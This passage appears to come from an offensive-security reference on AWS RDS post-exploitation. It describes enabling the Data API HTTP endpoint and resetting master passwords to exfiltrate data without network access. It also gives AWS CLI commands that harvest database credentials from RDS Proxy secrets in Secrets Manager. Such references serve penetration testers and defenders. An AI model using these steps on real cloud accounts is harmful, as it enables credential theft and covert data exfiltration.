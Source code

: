 Impact: Read-only but full data access to a near-real-time clone of production without modifying the production instance. Useful for stealthy data extraction and offline analysis.

### Out-of-band SQL via RDS Data API by enabling HTTP endpoint + resetting master password

Abuse Aurora to enable the RDS Data API HTTP endpoint on a target cluster, reset the master password to a value you control, and run SQL over HTTPS (no VPC network path required). Works on Aurora engines that support the Data API/EnableHttpEndpoint (e.g., Aurora MySQL 8.0 provisioned; some Aurora PostgreSQL/MySQL versions).

Permissions (minimum):
- rds:DescribeDBClusters, rds:ModifyDBCluster (or rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (and rds-data:BatchExecuteStatement if used)

Impact: Bypass network segmentation and exfiltrate data via AWS APIs without direct VPC connectivity to the DB.

<details></details>

Notes:
- If multi-statement SQL is rejected by rds-data, issue separate execute-statement calls.
- For engines where modify-db-cluster --enable-http-endpoint has no effect, use rds enable-http-endpoint --resource-arn.
- Ensure the engine/version actually supports the Data API; otherwise HttpEndpointEnabled will remain False.

### Harvest DB credentials via RDS Proxy auth secrets (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

Abuse RDS Proxy configuration to discover the Secrets Manager secret used for backend authentication, then read the secret to obtain database credentials. Many environments grant broad `secretsmanager:GetSecretValue`, making this a low-friction pivot to DB creds. If the secret uses a CMK, mis-scoped KMS permissions may also allow `kms:Decrypt`.

Permissions needed (minimum):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` on the referenced SecretArn
- Optional when the secret uses a CMK: `kms:Decrypt` on that key

Impact: Immediate disclosure of DB username/password configured on the proxy; enables direct DB access or further lateral movement.

Steps
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
  --query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
  --output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
  --secret-id <SecretArnFromProxy> \
  --query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```

